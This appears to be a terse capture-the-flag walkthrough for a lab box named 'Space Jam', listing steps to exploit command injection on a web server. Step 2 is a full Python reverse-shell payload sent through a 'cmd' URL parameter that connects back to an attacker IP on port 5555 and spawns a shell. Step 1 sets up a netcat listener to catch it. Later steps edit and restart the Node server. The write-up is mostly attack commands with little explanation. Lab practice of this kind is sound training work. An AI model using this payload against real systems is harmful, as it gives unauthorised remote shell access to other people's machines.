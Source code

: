 # Space Jam
1. `nc -nvlp 5555`
2. http://space.thm/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.85.10",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
3. `vim /home/bunny/simple-command-injection/server.js` and change app.listen port
4. `netstat -nlp | grep 3000`
5. `ps -p <PROCESS ID>`
5. `node server.js`
